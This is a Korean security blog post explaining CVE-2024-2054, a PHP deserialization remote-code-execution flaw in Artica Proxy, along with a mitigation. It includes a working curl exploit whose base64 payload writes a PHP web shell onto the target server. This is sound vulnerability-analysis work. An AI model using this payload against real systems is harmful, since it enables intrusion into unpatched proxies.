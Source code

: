 ```yaml
---
title: "[하루한줄] CVE-2024-2054: Artica Proxy의 deserialization로 인한 RCE 취약점"
author: ogu123
tags: [Artica Tech, Artica Proxy, deserialization, RCE, ogu123]
categories: [1day1line]
date: 2024-05-08 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

https://blog.sonicwall.com/en-us/2024/03/unpatched-php-deserialization-vulnerability-in-artica-proxy/

## Target

-  Artica Proxy <= 4.50

## Explain

웹 필터링, SSL 검사 및 대역폭 관리에 사용되는 Artica Proxy에서 PHP 객체를 적절하게 검증하지 않고 deserialization을 수행해 RCE 취약점이 발생했습니다.

```
if(isset($_GET["build-js"])){buildjs();exit;} 
...
$ARRAY=unserialize(base64_decode($_GET["build-js"]));

```
`/wizard/wiz.wizard.progress.php` 엔드포인트로 request를 보내면 `buildjs` 함수 내에서 검증 과정 없이 `build-js` 매개변수 값을 base64 디코딩 후 `unserialize`함수를 호출합니다.


```
curl -k "$ARTICA_URL/wizard/wiz.wizard.progress.php?build-js=TzoxOToiTmV0X0ROUzJf
Q2FjaGVfRmlsZSI6NDp7czoxMDoiY2FjaGVfZmlsZSI7czo0NzoiL3Vzci9zaGFyZS9hcnRpY2EtcG9zd
GZpeC93aXphcmQvd2l6LnVwbG9hZC5waHAiO3M6MTY6ImNhY2hlX3NlcmlhbGl6ZXIiO3M6NDoianNvbi
I7czoxMDoiY2FjaGVfc2l6ZSI7aTo5OTk5OTk5OTk5O3M6MTA6ImNhY2hlX2RhdGEiO2E6MTp7czozMDo
iPD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8%2bIjthOjI6e3M6MTA6ImNhY2hlX2RhdGUiO2k6MD
tzOjM6InR0bCI7aTo5OTk5OTk5OTk5O319fQ%3d%3d"

```
따라서, 공격자는 `build-js` 매개변수에 base64로 인코딩된 payload로 설정한 후 request를 `/wizard/wiz.wizard.progress.php` 엔드포인트로 보내는 것으로 취약점을 트리거 할 수 있습니다.

트리거는 간단하지만 deserialization로 exploit을 하기 위해서는 서버 측 PHP 모듈 내에서 exploit 할 수 있는 객체를 찾아야 합니다.

```
public function __destruct()
{
    // if there's no cache file set, then there's nothing to do
    if (strlen($this->cache_file) == 0) {
        return;
    }
    // open the file for reading/writing
    $fp = fopen($this->cache_file, 'a+');
    if ($fp !== false) {
        ...
        if (!is_null($data)) {
            // write the file contents
            fwrite($fp, $data);
        }
    }
}
```

해당 취약점은 `Net_DNS2` 라이브러리 내의 `Net_DNS2_Cache_File` 클래스 소멸자(`__destruct`)를 payload로 사용했습니다.

`Net_DNS2`를 이용한 방법은 2016년도에 해결되었지만 Artica Proxy에서 취약한 버전의 라이브러리를 사용하고 있어 exploit에 사용되었습니다.



![](cve-2024-2054/ogu.gif)

이를 통해 기존 파일을 웹 쉘로 덮어쓰고 악성 PHP를 `www-data` 권한으로 실행할 수 있습니다.

해당 취약점은 공개된 패치가 없어 `usr/share/artica-postfix/wizard` 디렉토리를 삭제하여 임시적으로 해결할 수 있습니다.



## Reference

https://korelogic.com/Resources/Advisories/KL-001-2024-002.txt